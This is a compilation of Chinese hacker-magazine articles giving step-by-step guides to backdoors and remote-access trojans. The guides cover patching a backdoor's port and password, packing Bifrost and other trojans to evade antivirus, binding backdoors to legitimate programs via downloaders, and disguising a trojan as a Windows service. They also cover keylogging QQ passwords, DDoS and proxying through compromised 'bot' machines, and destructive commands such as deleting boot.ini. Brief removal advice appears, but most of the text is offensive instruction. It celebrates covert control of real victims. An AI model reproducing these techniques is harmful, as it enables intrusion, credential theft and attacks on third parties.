后门 DIY 技术指对后门进行资源修改、破解限制等，以达到修改者需要目的的技术。以上是个人对后门 DIY 技术的简单理解。其实对后门进行改造已经有很多先例了，简单总结一下，包括软件汉化、免杀处理、功能限制的破解等。这些是我们常见的软件改造技术。在功能限制的改造方面，我摸索出来一些自己的经验和技巧，共享给大家。技术含量不高，请手莫笑。

#### 一、牛刀小试

我在整理黑客工具时，无意中发现了一个 TCP Telnet 服务后门，其功能如下：多线程支持无限连接，注册成系统服务随系统启动。程序监听 TCP 端口 2089，密码为 85277244，这个版本不提供参数修改。正因为不能修改参数，而且在隐藏上不怎么好，所以几乎没人会注意它，也因此各种杀毒软件对它网开一面。不能修改参数，那我们就手工改造它，将监听端口和密码改成我们自己的。本文我把 TCP 端口改成了 90，密码改为了 eighteen。首先，使用 PEiD 侦测壳的类型，如图1。

没有加壳，后门是使用 VC 编写的。用 OllyDbg 打开文件，我们可以清楚地看见整个程序的工作流程及其功能的实现。因为后门监听的端口 2089 对应的十六进制为 829。右键单击，选择搜索，然后选择常数，在弹出的搜索对话框内填入 829，如图2。点击确定后，会跳到：

在“push 829”上右键单击，选择汇编。我们的目标端口 90 对应的十六进制为 5A，所以在弹出的对话框里输入“push 5A”，如图3。这样，修改端口的工作就完成了。下一步，我们就要对密码进行修改了。

在搜索的子菜单中选择字符串参考，然后在打开的窗口中搜索 85277244，结果如图4。双击选中部分，进入到反汇编，根据地址 0040D2DC 在下面的 hex 窗口中找到 85277244 字符串，如图5。右击选中的部分，在弹出的对话框中选择二进制，然后选择编辑。在打开的对话框中的 ASCII 行输入我们的目标密码“eighteen”，然后点确定保存，如图6。

修改端口和密码的工作都完成了。最后我们要保存文件，点击右键，选择复制到可执行文件中的全部修正，然后保存到文件，这里我保存为 e.exe，如图7。

接下来对修改的后门进行测试，结果如图8、图9。呵呵，测试成功了！感觉是不是很有成就感！

#### 二、思维发散

通过以上简单的演示，大家是不是发现很有意思且实用，但我们不能仅仅局限于现在的思维定式。

显示的进程名称，修改文件自我复制保存的路径。并且我们还可以把其中的显示信息改成自己喜欢的。甚至我们可以修改后门插入的进程（不知插入到杀毒软件的进程中会怎样呢？）。好了，其它实现的方法大都相同，就不再演示了。

确实玩 DIY 中，不可避免会遇到一些不容易解决的问题，但不要轻言放弃，努力尝试用各种办法解决它，还有就是大家要多动脑，发散自己的思维，才能突破常规从而发现新的技巧，把 DIY 技术发挥得淋漓尽致。

（本文所涉及到的 TCOODOR、OllyDbg 和作者修改的后门 e.exe 已收录到光盘中）

### 牧马记

现在制作木马免杀的方法有很多，加花指令、修改特征码等等。但是都要面对大量的反汇编出来的代码，对我等没学过汇编的菜鸟来说很是痛苦。最简单的免杀方式莫过于给软件加个壳来达到免杀的目的，可现在大部分常用的加壳软件加出来的程序也都难逃杀毒软件的查杀了。前几日逛论坛，发现了一个新的加壳软件——Themida，用它加壳后的程序暂时还不被各杀毒软件查杀。下面就开始和我一起制作免杀木马。

我们以木马 Bifrost 为例。首先生成 Bifrost 木马程序的服务端，如图1。

注意不要选择“Autopack Server”选项，也就是说生成一个不被加壳的服务端。

默认情况下，Bifrost 生成的服务端是会被杀毒软件查杀的，如图2。

下面我们就来给服务端加个壳。

在使用 Themida 1.5.0.0 前要先执行软件目录下的破解补丁“patch1.exe”，然后打开 Themida，在“Input filename”项选择木马的服务端，此时在“File information”项就会显示被载入木马服务端的相关信息，如图3。

到最后一步了，我们点“Protect”按钮，会弹出个窗口，我们在这个窗口中再点下“Protect”。此时就开始给服务端加壳了。加壳过程相对其它加壳软件来说会比较慢，我们要耐心等待，如图4。

我们再来使用杀毒软件进行查杀，已经不被查杀了，如图5。现在来测试是否可用。把服务端上传到肉鸡上运行，没过多久 Bifrost 客户端已经提示上线了。各个功能都测试一下，没有异常，如图6。到此我们用 Themida 轻松地实现了木马的免杀。

本来加壳后的服务端比较大，我想再用其它软件重复加壳，来减少软件体积，但是没有成功。说明 Themida 软件可能不支持重复加壳，大家在使用的过程中要注意。

（本文中所涉及到的 Themida 1.5.0.0 已收录到光盘中）

### 完美的网马是这样做的

小七

最近上网突然有朋友在论坛上说有些网马中存在一些编写者留的后门，试想我们辛苦地抓鸡却在为他人做嫁衣是什么感想呢，今天就来揪出网马背后的黑手。

这里用华夏黑客同盟的免杀 XP SP2 超级小网马来做实验（图1）。这个工具的作者可是煞费苦心，给代码加了 2 次密。先生成网马，生成完以后有 3 个文件 heng.htm、heng.gif 和 heng.css，其中 heng.css 就是我们的木马了，插入后门是不可能的。我们就从 heng.htm 下手吧，因为一般后门都藏在这个文件中，代码如图2。

这里他加了很多 0 区域，先使用特殊的网页编辑工具（黑客经常用它编辑网页木马）把多余的 0 区域去掉，软件界面如图3，点击“去零”后会在这个软件的目录下生成一个相对应名字的 TXT 文件。去掉 0 以后的代码如图4。不过这里有一段还是加密的，看来问题可能就出在这里，如图5。

```html
<SCRIPT language=JScript src="young.gif"></SCRIPT><SCRIPT language=VScript src="young.css"></SCRIPT><HTML><BODY><div style="display:none"><OBJECT id="news528" type="application/x-oleobject" ...></OBJECT></div>
```

```html
... </SCRIPT></BODY></HTML><script language=JScript.Encode> ... </script>
```

用 BAIDU 找到一个在线解密的网页：http://www.hao123.com/haoserver/jmjm.htm，选择脚本加密码及解密，解密看看是什么东西（图6、7）。

| 链接项 |
|---|
| 网页加密按此进 |
| 网页解密按此进 |
| 脚本加密码及解密 |

```html
<script language=JScript>
document.write("<iframe src=http://good20.go.3322.org/ width=0 height=0></iframe>");
</script>
```

看到了吧，“`<iframe src=http://good20.go.3322.org/ width=0 height=0></iframe>`”，后门地址出来了，把这段代码去掉就好了。

下面接着介绍一种简单的免杀方法。对文件查毒，卡巴报警了（图8）。打开加密最终版，选择要加密的文件，输入一个 95～95 之间的数字，点击加密（图9）。再用卡巴查毒，已经不杀了（图10）。至于 heng.gif，其实它的核心也是 HTML 语言，把 heng.gif 的扩展名改成 .htm，然后用同样的方法免杀就可以了。

至此一个没有后门又免杀的网马就诞生了。（本文中所涉及到的 SP2 网马、网页编辑工具、加密最终版和文章操作动画已收录到光盘中）

#### 什么是脚本

脚本（script）早期是指一些解释执行过程的专用名词。这些编程方法比较简单，语法也比较宽松，在需要的时候随便写入几行代码就可以试着运行和调试了。那时称它们为脚本编程。后来 ASP、PHP 程序的注入、跨站等漏洞发生后，安全界就把基于网站的东西称为脚本攻击，而那些会使用别人做好的工具来入侵的人也被称为“脚本小子”（script boy）。

## JXWebSver——另类的远程控制

远程控制软件应该是大家比较熟悉的一类黑客工具了。从以前正向连接的 radmin，发展到目前同时带有正、反向连接功能的灰鸽子、上兴远控，以及隐藏端口、隐藏进程的 rootkit 等等，这其中总有一款是你使用过的吧。它们的功能和使用方式大都一样，只不过是界面和代码优化方面，还有免杀方面有比较大的不同而已。这不免让人感到缺乏新鲜感。今天我就给大家带来一款优秀的、由网页来控制的远程控制软件——JXWebSver。

JXWebSver 是一个结合了静态网页服务器与远程控制、文件管理功能的组合型软件，它的主人给了它一个很好的评价：一个无客户端远程控制、文件管理工具，使用一般的浏览器即可控制；喜欢什么都扯上黑客的人叫它为“无客户端木马”。可作为个人 WEB 服务器，方便学习制作网页。听起来感觉还不错吧，下面我们就来看看它的使用方法。

#### 一、安装被控端

首先，需要在被控制端进行安装。它不像普通的那些木马，一个服务端的 exe 文件，然后到被控制端运行即可。JXWebSver 是需要一步步安装的，毕竟它是一个远程控制软件，而不是真正意义上的木马。我们打开安装程序，如图1。点击“下一步”按钮。

假若不想让别人发现，可以把“运行时隐藏”和“开机自动运行”这两项都勾选上。好了，现在我们就可以在其它电脑上控制这台安装了服务端的电脑了，打开一个浏览器，输入 http://对方ip:81/begin.jxasp 或者 http://对方电脑名:81/begin.jxasp，就可以进行远程控制了，如图3。

#### 二、远控功能详解

先看看常用的功能吧，“浏览磁盘”就不用多说了，可以对各个磁盘进行读写操作，复制、粘贴、删除功能都可以实现，用于正途，可以方便文件的传输；用于不太妥善的方面，可以查看别人的隐私、删除别人的机密等，具体的操作就跟操作本地计算机的磁盘一样简单。

再来看看大家比较感兴趣的，也是远控的核心功能——“屏幕控制”，可以看到对方在干什么，而且可以控制对方的鼠标、键盘，是不是挺过瘾的呢？！程序提供了选择观看三分之一或者完全大小的屏幕，如图4。

哎呀，看到了吧，那家伙竟然还在玩泡泡堂呢，玩得这么痛快，还不晓得我们已经控制了他的电脑，嘿嘿。另外，我们还可以做一些恶作剧类的动作，例如直接关掉对方的电脑，或者注销，甚至重启，都是一键即可达到的效果。当然了，这些功能要是用于正常的远控方面，也是挺有用的。

#### 三、另类实现 Web 服务器功能

这个功能可以让我们在本机上轻松地组建一个 Web 服务器，只需轻轻一点，就 OK 了。打开“更多选项”，选择“网站设置”，然后可以随意选择你存放网页的目录，并可以由你自己指定端口，这里我们还是按照默认的试一下吧，如图6。

看看，网页显示出来了，这与我们安装 IIS 架构的网站效果还真一样呢，如图7。到此，JXWebSver 基本的功能都介绍完了……这款远控软件需要手工安装，要想成为真正的木马，我们是不是也该更自动化一些……随时欢迎大家到 www.hackerxfiles.net/index.php 论坛去提问、交流。

（文章中涉及到的工具 JXWebSver 已经收录于当期光盘中）

### AngelShell 浅谈后门伪装

后门伪装是菜鸟必须掌握的一种技能，无论你的后门木马功能多么强大，安装不到肉鸡上，就是废物一个。今天我们就以 AngelShell 为例简单说一下后门伪装的方法。

#### 一、AngelShell 的配置

AngelShell 是用 DELPHI 语言开发的后门工具，它较大的特点是实现了后门反向连接和 DLL 释放程序。主程序运行后的界面如图1所示，在“基本设置”中可设置端口（默认 3721）、Banner、连接密码等。

后门连接信息中，连接密码输入你喜欢的密码即可。要使端口复用，选择“反向连接”。先建立一个文本文件，第一行写 IP 地址，第二行写端口，保存后上传到 HTTP 空间，在“HTTP 地址”中填写该文件地址即可。

#### 二、后门的隐藏

- 1. 加壳

这是一个地球菜鸟都知道的方法，我们这次使用的工具是 NCPHACK。运行程序后，在“原始文件”中选择刚才生成好的 AngelShell 服务端，点击“保护”后会生成加壳文件。

### 牧马记

一定程度上就可以躲过一些杀毒软件的查杀了。

## 2．迂回曲折之后门捆绑和下载

捆绑是我们经常用到的另一种伪装方法，我们把后门和合法的 Windows 程序捆绑后上传到我们的肉鸡上，然后替换肉鸡上原有的程序，就可以实现后门的安全运行了。这里介绍的捆绑工具是 ROBINPE，因为 ROBINPE 的原理是把我们的木马后门程序写到宿主程序的间隙里，所以它要求的后门程序一般比较小。


我们这个小后门有 198K，这完全不行的，那该怎么办呢？我的解决方法就是采取迂回曲折之术。我们先把做好的后门上传到自己的 HTTP 空间，然后用 WEBDOWNLOAD 去下载。也就是说让 WEBDOWNLOAD 生成的小服务端去和 Windows 的合法程序捆绑，执行后让 WEBDOWNLOAD 去下载我们的后门。

打开 WEBDOWNLOAD 的主程序，在 URL 里输入我们要下载的后门程序地址。这个东西最大的特点是有错误提示，我们在“FAKE ERROR MESSAGE”处输入要显示的错误信息，会麻痹管理员。选择好后就可以生成服务端了。


然后运行 ROBINPE，先选择后门文件和要植入的文件，再计算空间，最后点生成就可以了（图4）。这个工具尤其在网吧中很有用，把生成的服务端和大的游戏捆绑，然后让服务端去下载要隐藏的木马服务端。


最后我们把后门文件的时间进行修改。在网吧里常能看到管理员通过时间去查找上传的文件，工具就用 FILETIME.exe，不错的时间修改器，使用非常简单，就不赘述了。

> （本文所涉及到的 AngelShell、NCPRACK、ROBINPE、WEBDOWNLOAD 和 FILETIME 已收录到光盘中）

## 网络中的毒葛 poison ivy

现在的远程控制软件真是五花八门，我一直是对灰鸽子情有独钟，所以在网上遇到发布新的远程控制软件，我通常都不怎么关注。前几日拿到火狐的论坛账号后，看到了 poison ivy（毒葛）远程控制程序，运行后的界面如图1所示，很简洁。


切换到了创建服务端（图2）。服务端配置并不难，DNS 栏填写你的 IP 地址或者域名，ADSL 用户可以申请动态域名。“分组”和密码可自定义。在下边启动方式可选择 Active-X，并自定义 key 值。

#### 服务端配置

安装选项下的“文件名”为服务端程序名，具体配置如图2所示。配置完成后点击右边的“创建”按钮，就会生成服务端，生成的服务端只有 8K，用来捆马要比鸽子强。


#### 实战演练

看过很多前辈写的关于各种黑软使用的文章，觉得有实战演练的是最能让人学会使用并且掌握的。今天刚好有个隔壁班的 MM 问我要去除广告版的 kugoo，机会来了，我把木马传到了我的 blog 上，然后给 MM 一个下载地址，以下是聊天记录，如图3。不一会儿，就提示有上线的了，还很特别，在系统托盘下弹出一个气球来提示……


总体感觉速度比灰鸽子要快些，其它常用功能也还可以。重点来说一下 poison ivy 的一些特殊功能。这里有一个包分析，可以看到整个对方主机的网络活动……


最后我卸载了木马，给 MM 赔礼道歉，QQ 也帮她申请了密保。国外的黑软在有些地方确实比国内的要强……


## 为木马开道的净路先锋

众所周知，各款木马后门软件都会想尽各种办法保护自己，以免被杀掉……“火狐的净路先锋”就是菜鸟一个不错的选择，这款软件由天涯浪客制作，界面清晰，而且只有 75.7K（图1）。


该软件的服务端采用 netsvciy.exe 和 tlntsvy.exe 双进程监控，如果只结束一个进程就会自动注销计算机……下面我们来看一下它的具体设置。

在“你要监控的木马进程”中输入你要保护的木马的进程名……下面的“当监控的木马进程和本程序的进程被强制关闭时处理”按你的需要选择即可。


你也可以选择是让它“仅启动一次”还是“每隔一秒启动一次”，后者可以保证你的命令得以不断运行，不过肯定要消耗很多资源，容易被发现，同时它也有下载者功能，且下载的文件不要超过 1.5M。

还有一点要注意，由于这是使用 VB 编写的软件，要进行加壳或免杀时，需要先处理每次启动软件的时候自动生成的 `server.exe`，对这个文件进行加壳免杀后，再来进行配置（图3）。

这款软件很让人心动，也让人害怕，如果我们不小心中了火狐的净路先锋，要同时结束 `netsvciy.exe` 和 `tlntsvy.exe` 这两个进程，然后再清除，大家一定要小心哟！


“上兴远程控制”一直是我关注的一款好马，隐蔽而且远程控制极为方便。我曾用它控制了一台又一台的肉鸡，为我的黑客行动立下了汗马功劳。最近上兴又推出了最新的版本“上兴远程控制 V3.8 版”，当然少不了测试一下，看新版本中又增加了什么好东西了！

远程控制 V3.8 也是 10 号推出的，查不出来也情有可原。不过，在测试木马的几天中，笔者随时升级更新病毒库，竟然也不能查杀上兴（图3）。如果再对木马加一层壳做成免杀的话，就更完美了。

## 一、减量不减质，精简与新增

下载“上兴远程控制 V3.8 版”压缩包，解压后可看到新版本精简了原来 V3.4 版中的 DLL 文件 `borlndmm.dll`，使得体积更小，携带更方便。不过新版的上兴可没因为体积减小而减功能哦！反而因为精简了 DLL 文件，不再采用 DLL 注入的方式启动，更难以被杀毒软件查杀！

运行上兴远程控制程序，打开服务端生成组件，可以看到新版的上兴远程控制服务端比原来增加了许多新功能，其中最有特色的就是进程隐藏、上线分组、驱动启动几点（图1）。下面我们就来逐一体验一下吧！


## 二、木马隐藏，难以查杀

在服务端生成设置中，我们勾选“使用 IE 浏览进程启动服务端”“2K/XP/2003 隐藏进程”和“运行后自动删除安装文件”项，生成一个木马服务端程序。上兴远程控制 V3.8 生成的木马服务端程序图标与原来相比发生了改变，是 Windows Media Player 播放媒体图标，很具有迷惑性（图2）。

生成木马后，我使用江民 KV2006 检查了一下，竟然提示没有发现病毒！


## 三、服务伪装替换，查无可查

我们来运行一下服务端，再看看 KV2006 能不能将它查出来。启动 KV2006 进行全盘扫描，提示找不到病毒；因为上兴木马服务端安装成功后，已自动删除安装文件。那么木马自身是如何加载运行的呢？上兴远程控制 V3.8 与 V3.4 版本不同，不是采用 DLL 注入的方式加载运行，因此不会产生 DLL 病毒文件。上兴 V3.8 采用的是服务驱动方式运行，直接通过 IE 浏览器进程加载与客户端进行连接。

### 1．服务伪装

查看系统服务可以看到内存一个名为“Windows_rejoice”的自动运行服务，描述信息里面赫然显示为“上兴远控服务端”（图4）。该服务状态虽然没有列为“已启动”，但是只要用户一联网就可以检查出来，需要进行一些伪装。

刚才的“服务器配置”对话框中，可以自己设置服务名称、显示名称和描述信息，可以将其改得与一些系统服务非常相似，达到隐蔽的目的。

### 2．服务替换

不过我们有更为隐蔽的伪装方法，那就是服务替换，不是在安装时进行服务替换，而是控制了远程肉鸡后进行服务替换：当用户端连接木马上线后，点击界面中的“服务管理”按钮，再点击“查看服务”按钮，连接获得被控制的远程主机上的服务信息，查看列表中是否有停用的系统服务，可将其替换掉。我们选择的是“xmlprov”服务，记下服务名称和描述信息，选择该服务名称，点击右边的“删除服务”，将其删除掉。然后点击“新建服务”按钮，打开新建服务对话框，设置服务名称为“xmlprov”，显示名称为“Network Provisioning Service”，描述信息改成“为自动网络提供管理基于域的 XML 配置文件。”，在程序路径中输入木马文件路径 `C:\Program Files\Common Files\Microsoft Shared\MSINFO\rejoice.exe`（图5）。点击确定后，服务新建成功。再在服务列表中选择新建的“xmlprov”服务，点击右边的“设为自动”按钮，让木马服务能够自动运行。最后将原来的木马驱动服务“Windows_rejoice”服务也删除掉，成功地用木马服务替换掉原有的系统服务。此时管理员很难发现系统中了木马了！


图5

上边的 `C:\Program Files\Common Files\Microsoft Shared\MSInfo` 是木马文件的存放路径，“rejoice.exe”是默认的木马文件名，在配置木马时可将其改为有迷惑性的名字，如“MSInfo.exe”之类的。

## 四、键盘记录，无物能逃

上兴远程控制 V3.8 升级了键盘记录功能，在键盘记录中加入了内存截取功能。控制者可记录指定窗口内的键盘输入，操作直接在内存中进行，因此成功率非常高，并且不会影响被控制主机运行的速度。我们先来看看如何截取 QQ 登录密码。

### 1．轻松截取 QQ 密码

连接远程主机后，点击工具栏中的“超级记录”按钮，打开键盘截取窗口。点击窗口中的“启动键盘记录”按钮，开启键盘记录功能。在本机上测试截取键盘输入的过程中，丝毫不影响系统速度，根本感觉不出正在被截取。截取一段时间后，点击“察看键盘记录”按钮，可以看到被控制远程主机上用户输入的任何内容。记录的信息很详细，包括用户输入的窗口名称、标题、输入时间等，用户输入的空格以及方向键等，都能被记录。

找到“窗口类名：#32770 窗口标题：QQ 用户登录”的数据段，可以看到在被控制的主机上，用户输入的信息为（图6）。


图6

成功地获得了 QQ 号 41346383，密码为“1111111”，但是截取的密码明显不正确，这是因为 QQ 使用了键盘加密保护技术，所以记录的密码不正确。可点击“杀 QQ 键盘锁”按钮，破解键盘加密技术，就可正确记录 QQ 密码了。有一些用户使用的是汉字密码，汉字密码必须通过剪切板复制粘贴，可以点击“查看剪切板”，就可以看到用户输入的密码了。其它网络游戏的账号和密码同样也逃不脱上兴的超级键盘记录。

### 2．内存搜索：隐藏信息照样截

上兴 V3.8 版的键盘记录提供了内存搜索功能，非常有用，可以截取一些无法直接记录的信息，比如加密过的密码、对方发过来的 QQ 消息、接收到的邮件内容等。例如我们在键盘记录中看到如下信息：“窗口类名：#32770 窗口标题：与‘会飞的鱼 聊天中’”，可知被控制用户与 Q 友进行聊天，聊天内容是什么呢？里面有没有什么重要的信息？因为用户是接收对方发送的信息，所以在键盘记录中没有记录具体的内容，不过接收的消息都是保存在内存中的，因此可以搜索一下内存，看看有没有什么重要的信息。


图7

在右边的“内存截取”区域，按记录的信息设置“窗口类名”和“窗口标题”。注意，这里一定要用复制的方法设置信息，如果直接输入窗口类名和窗口标题，会出现乱码，而且无法正常搜索。在“特征字符”中输入一些敏感的词语，如“密码”“QQ号”“几点”……点击“远程内存搜索”就可以截取内存中的重要信息了（图7）。在查找内存时，可以搜索内存中是否存在输入的特征字符，找到后就会截取特征字符之后的 500 个字符进行显示。在此例子中，我们看到了 Q 友发送给被控用户了一个 QQ 号和密码。

另外，我在测试时，也成功地获得了对方的注册信息邮件内容。当然，这些信息有的是可以通过远程桌面监视获得的，但是我们不可能时刻监视对方的桌面吧，键盘记录配合内存搜索，可以得到我们想要的任何信息。

## 五、批量操作，功能多多

在前面生成配置服务端时，我们提到新版上兴提供了“分组”功能。当配置服务端时，如果设置了分组，当服务端连接上客户端时，就会自动显示在分组中（图8），便于用户同时进行批量控制。


- 1. 无法拦截的网页广告

现在的网页广告过滤软件非常厉害，想要作点广告都不行，不过在上兴控制的肉鸡上打几个网页广告还是很容易的。点击工具栏上的“批量命令”按钮，再选择“批量网络功能”标签，就可以宣传网页了（图9）。


在上面的列表中勾选要作宣传的主机，在“加主页收藏夹”中输入广告网址，确定后即可将广告网页加入到所有选择的肉鸡收藏夹中。在“网页宣传”中设置广告网址，点击“打开网页”，可以在对方桌面上自动弹出一个广告网页窗口，让对方莫名其妙——我的广告拦截软件怎么没用啊？此外，还可直接修改对方的 IE 主页、设置壁纸等，同样可达到宣传网页的目的。

- 2. 批量攻击，网站的厄运

虽然以前的上兴木马中就提供了 DDOS 攻击的功能，不过只能操纵单台肉鸡攻击。新版上兴提供了批量操作，多台肉鸡同时进行攻击，效果十分不错！当操纵了足够多的肉鸡后，可以利用这些肉鸡对某个网站进行 DDOS 洪水攻击，方法很简单，设置要攻击的 IP 地址、端口、攻击的强度和时间等，即可展开攻击（图10）。


- 3. 批量操作，视频筛选

在新版上兴中，增加了肉鸡是否有视频的显示，并且可以批量操作筛选有视频的主机。在“批量主机操作”中点击“筛选有视频的主机”按钮，就可以直接批量操作有视频的远程肉鸡了。另外，还可方便地批量开启远程主机的 3389 连接，修改备注内容等。

- 4. 代理跳板轻松找

新版上兴也新增了代理功能，直接批量开启大量肉鸡的 Socks5 和 HTTP 代理。在“批量开启代理”中设置要开启的代理类型、代理端口、连接的用户名和密码等，点击“开启代理”按钮即可（图11）。


通过对上兴 V3.8 的测试，真是爱不释手。如今，在网上各种夹带了后门的木马和会员收费木马满天飞的情况下，有这么一款功能强大而又免费的木马，实在是广大菜鸟的一大幸事。（本文所涉及到的上兴远程控制 V3.8 已收录到光盘中）

## 迷你木马——网络笨猪

现在的木马随着功能的增强体积也越来越大了，不仅木马服务端大，连控制端的体积也变大了。灰鸽子的服务端就有几百 K，服务端的增大给我们上传木马和制作网页木马带来了很大的麻烦，因此菜鸟们制作网页木马时常常会先使用“下载者”，利用“下载者”下载其它的木马，不过由于免费空间的不稳定性，常常会造成网页木马的链接失效。

在第 8 期的 X 档案上介绍了一个国外的迷你木马“Poison Ivy”，今天我也给菜鸟们带来了一个国产的迷你木马——网络笨猪。功能虽然与国外木马“Poison Ivy”有一定差距，但是生成的服务端仅有 10 多 K，与国外的木马“Poison Ivy”服务端的 8K 相比差不大，在某些方面甚至比国外的木马“Poison Ivy”还要更强。

从网上下载的网络笨猪只有一个文件，大小仅为 50 多 K（Poison Ivy 为 700 多 K），几十 K 的控制端在木马中很少见，可见作者的编程功夫。程序第一次运行需要输入 IP 地址数据库，如没有 IP 地址数据库或者数据库不需要，可直接点击“确定”按钮，但肉鸡上线后就无法显示具体的物理地址。建议从网上下载最新版纯真数据库，然后在地址中填上纯真数据库的绝对路径即可，如图1。

## 一、服务端的设置


基本配置中的“地址”可填写你的固定 IP 地址或动态域名。为了方便菜鸟使用“网络笨猪”，程序的作者建立了一个免费域名，在“选项”菜单中，点“内置动态域名”→“注册用户”如图3。填上你注册的用户名及邮箱，点“确定”按钮，然后打开你的邮箱就可找到你的动态域名和密码，如图4。

扩展信息、服务名、显示服务名、服务描述、EXE 文件名、DLL 文件名可随便填，最好和系统服务相近以免引起管理员的怀疑，可参考图2填写。“插入进程”：填写插入的系统进程，作者建议插入到 services.exe，插入到 IE 等其它进程都可以。

认证信息：由于我们没有认证只能填“guest”。网络笨猪的服务端加的 FSG 2.0 壳，用手工或软件脱壳都不能上线了。所有的选项完整填写后，点“确定”就可生成服务端了。至于如何种植木马，利用远程溢出或是网页挂马等等方法都可以，在以前的 X 档案都曾介绍过，在此不再啰嗦。


## 二、服务端的控制

- 文件管理：在线的肉鸡上点右键，点“文件管理”再点右键中的“刷新驱动器”就可打开肉鸡上所有的磁盘。双击需要打开的磁盘，就可在下面的窗口中显示磁盘中的文件，可以下载、删除文件，如图5。

- 进程管理：在线的肉鸡上点右键，点“进程管理”再点“刷新进程”就可打开肉鸡当前所有的进程，点“结束进程”就可以结束肉鸡的进程，如图6。

- 服务管理：在线的肉鸡上点右键，点“服务管理”再点“刷新服务”就可打开肉鸡的所有服务，在此可以对肉鸡上的服务进行增加、删除、启动和停止等等，如图7。

- 其它管理：“远程 shell”就是肉鸡的命令提示符，利用命令提示符可以完成新建、删除文件和文件夹。其它的注册表管理、远程控制功能暂时不能用，作者承诺在新版本中增加。


## 三、木马的清除和预防

网络笨猪有 2 个文件，DLL 文件插入到系统进程中起控制作用，因此找到它插入的进程，利用任务管理器或冰刃等工具将被插入的进程结束掉，将 DLL 文件删除就可以了。如果插入到系统关键进程无法结束，可参考第 7 期 X 档案“DLL 木马攻防战”中的方法解决。至于 EXE 文件主要是启动时加载运行 DLL 文件，找到后按删除就可以了，然后在注册表中删除有关的键值就可以了。

> （本文所涉及到的网络笨猪 0.4Beta 已收录到光盘中）

## 细说 PCVIEW2006 特版的后遗症


PCVIEW2006 是一款非常不错的木马，它的优点是上线率高。在以前的 X 档案上也曾经介绍过该款木马，在光盘上也曾经收录过。在网上看到的许多版本都自称是经过了高手们的改造，似乎在功能上都较杂志上介绍的那个“安分”的原版多之又多。因此，我就从网上下载了一个由小风居提供的 F.S.T 专版的 PCVIEW2006，如图1、图2。

这款经过改造后的版本，除了外观更华丽外，就是其较原版的稳定性更高了一层，只是被控端连接过来的间隔性仍没得到改善，每隔八九分钟在线的服务端就会消失一两分钟，搞得心脏不太好的我一直心惊胆颤的，就怕远方的小鸡可能死掉。


打开客户端，兴奋不已的我马上进行配置，然后生成了服务端，加了个壳（杀毒软件持续强硬），又用定位修改文件头的方法弄了一弄，最后发给了朋友，让他们帮我做实验。等朋友发了文件，并运行已经过了十分钟的时候，我这边的控制端上还是空空如也，又等了几分钟，已经冒火的我一怒之下干脆直接在本机运行了服务端。

老爸一直教育我：“性情中人办不了大事”，直到运行了服务端，我才悟出了这个道理。虽说这改造版的不光是控制端性能进行了提高，服务端也够厉害的，不像其它一般同类木马服务端会消失，而在我运行完 PCVIEW 的服务端后，在同一文件夹下又出现了三个新的隐藏文件（我的文件夹一直处于全可看状态）——分别是 Hook.dll、protect.dll 和 private.exe。

第一个文件想必玩钩子的同仁们都很了解，它是关键进程之一，没想到在这个服务端上也可以遇见；第二个就是普通的守护动态库了；没想到改造者连名字都懒得改，第三个直接是“私有的”，改造者的野心看来很幽默。刚开始我并没把它们当回事儿，只是用卡巴大叔在安全模式下简单扫了一下，不一会儿它们就成了我的噩梦。

重启以后，到了正常模式下，准备玩游戏，可还没等连接完，一个曾经很熟悉的窗体便弹了出来（图3）。吃惊之下，赶忙打开“运行”，在里面敲入了 `shutdown -a` 中止了关机倒计时，这下才松了口气。原来曾经中的冲击波就是这样会让计算机处于定时关闭状态。赶忙打开任务管理器，果不其然，里面出现了两个一样的进程（图4）。

该进程为会话管理子系统，用以初始化系统变量，MS-DOS 驱动名称类似 LPT1 以及 COM，调用 Win32 壳子系统和运行在 Windows 登录过程，而且此进程是一类盗取网络游戏帐号的木马相关进程，所以说这一定是改造者后加进去的后门，没想到呀，真黑！

这个“正品”程序对你系统的正常运行是非常重要的，但正确程序的位置应该位于 `x:\windows（winnt）\system32` 下面。通过查询，我发现其中一个 SMSS 却位于 `%WINDIR%` 下；又发现在进程列表中，那个不正常的进程名是大写的，而一般应该是小写。马上结束了这个不正常的进程，进入了 `%WINDIR%`，先删除了那几个字母一类的文件，然后打开注册表，搜索了 “Hook.dll” 一下，得到了一个结果，删除了这个值，然后开始搜索文件。

在安装 PCVIEW 和系统的分区中又搜索 SMSS 和 Hook.dll，将得到的文件全部在安全模式下删除了，然后根据灭灰鸽子的经验，又展开 `HKEY_CLASSES_ROOT\cplfile\shell\cplopen\command`，删除了 “rundll32.com shell32.dll,Control_RunDLL \"%1\",%*” 中的 rundll32.com，还有注册表中绝大多数的 finder.com。重启了一下，冲击波的进程便再也没有出来。

经过 30 分钟的奋战，电脑终于再度安全了。在这里要提醒大家的是，可不要因为功能上的一点点进步就安装了这个软件，免费的午餐可是要付出点代价的，还是老老实实地用 X 档案提供的吧！


## 使刺刀——样地入侵从入心难

### iamabird 多功能入侵型鼠标移植工具


当今的网络世界真是缤纷多彩啊，到处都能看到灰鸽子、流氓、彩虹桥……的身影，这说明当前的远程控制木马已经是人丁兴旺、繁荣富强了。我们不得不另外开辟道路以寻求更多的体验。以上提到的这些木马大部分都是手动操作，那如何自动操作呢？如果你想要控制对方电脑的鼠标，而你又经常不上线怎么办呢？今天向大家介绍一款功能强大的鼠标移植工具……


首先，我们打开这个工具，表面上只有两个按钮和一个复选框以及两个菜单，看似简单的东西其实功能是最强的。

### 一、录制鼠标动作和播放

打开工具之后，我们点击“记录”按钮，它会提示你输入记录的最长时间（图2）。


如果超出时间将会提示跳回到界面，这时“播放”按钮就会亮起，我们可以点击“播放”按钮来检查你的鼠标动作是否有错误，如果没有错误，可以通过文件菜单的保存功能，将记录的轨迹保存到一个 iab 扩展名的文件里……

### 二、强大的命令行处理参数

```text
命令一：[shellhide.程序地址]           隐蔽方式运行某程序
用法示例：iamabird shellhide c:\windows\system32\notepad.exe

命令二：[shell.程序地址]               最大化运行某程序
用法示例：iamabird shell c:\windows\system32\notepad.exe

命令三：[urlhide.网址(带http://)]      隐蔽方式打开某网站
用法示例：iamabird urlhide http://www.hackerxfiles.net/

命令四：[url.网址]                      正常方式打开某网站
用法示例：iamabird url http://www.hackerxfiles.net/

命令五：[addline.语句@.地址]            追加语句到某文本文件
用法示例：iamabird addline cd c:\windows @ c:\autoexec.bat

命令六：[creat.地址]                    创建某文本文件
用法示例：iamabird creat c:\autoexec.bat

命令七：[kills.地址]                    删除某文件
用法示例：iamabird kills c:\boot.ini

命令八：[bluescreen]                    9x系统迅速蓝屏
用法示例：iamabird bluescreen

命令九：[pmake.程序池名@程序池类型]      创建新程序池
用法示例：iamabird pmake myprog@batfile
